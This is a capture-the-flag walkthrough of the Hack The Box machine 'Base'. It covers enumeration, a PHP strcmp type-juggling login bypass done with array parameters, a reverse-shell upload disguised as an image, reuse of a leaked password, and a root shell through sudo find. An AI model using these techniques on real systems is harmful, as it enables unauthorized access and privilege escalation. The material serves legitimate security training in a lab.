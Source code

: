 ```yaml
---
title: Base - A HackTheBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - php type juggling
  - reverse shell
  - suid binary
  - linux privilege escalation
---
```


# Base - A Hack The Box machine

Enumerate open ports and services.

```bash
nmap -sC -sV $ip -Pn
```

Ports 22 and 80 are open.

Add base.htb to /etc/hosts.

Enumerate directories:

```bash
gobuster dir -u http://base.htb/login -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/big.txt
```

Some file and folders uncovered:

```
- http://base.htb/_uploaded/
- http://base.htb/login/
- http://base.htb/login/login.php
- http://base.htb/forms/
- http://base.htb/assets/
- http://base.htb/logout.php
```

Under  /login there are three files: login.php, config.php and login.php.swp. There are two ways of reading the swap file, with strings and with vim:


```bash
vim -r login.php.swp
# -r  -- list swap files and exit or recover from a swap file

```

Content:

```
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
```


Quoting from the article [PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09): "When comparing values, always try to use the type-safe comparison operator “===” instead of the loose comparison operator “==”. This will ensure that PHP does not type juggle and the operation will only return True if the types of the two variables also match. This means that (7 === “7”) will return False."

My notes about [php type jugling](php-type-juggling-vulnerabilities.md). 



In the HackTheBox machine Base, login form was bypasseable by entering an empty array into the username and password parameters:

```
Original request


POST /login/login.php HTTP/1.1
Host: base.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://base.htb
Connection: close
Referer: http://base.htb/login/login.php
Cookie: PHPSESSID=sh4obp53otv54vtsj0g6tev1tt
Upgrade-Insecure-Requests: 1

username=admin&password=admin

```


```
Crafted request:

POST /login/login.php HTTP/1.1
Host: base.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://base.htb
Connection: close
Referer: http://base.htb/login/login.php
Cookie: PHPSESSID=sh4obp53otv54vtsj0g6tev1tt
Upgrade-Insecure-Requests: 1

username[]=admin&password[]=admin
```

How to know? By spotting the file login.php.swp in the /login exposed directory and reading its contents.

After sending request with BurpSuite, grab the PHPsession cookie and in your browser enter that cookie and go to: http://base.htb/upload.php. Now you can upload our [pentesmonkey shell](pentesmonkey.md) using BurpSuite Repeater (important note: change header to "Content-Type: image/png", file extension may remain php). Have your netcat listener ready.


```bash
whoami
```

```
www-data
```

Credentials can be found at /var/www/html/login/config.php. Use them to login as the existing user at /home

```bash
su john
# enter password: thisisagoodpassword
```

Once you are john, you have access to user.txt. Also, to be root:

```bash
id
sudo -l
```

```
ohn@base:~$ sudo -l
sudo -l
[sudo] password for john: thisisagoodpassword

Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
```


See [cheat sheet about suid binaries](suid-binaries.md) and:

```bash
sudo find . -exec /bin/sh \; -quit
```

Now you are root and can echo /root/root.txt

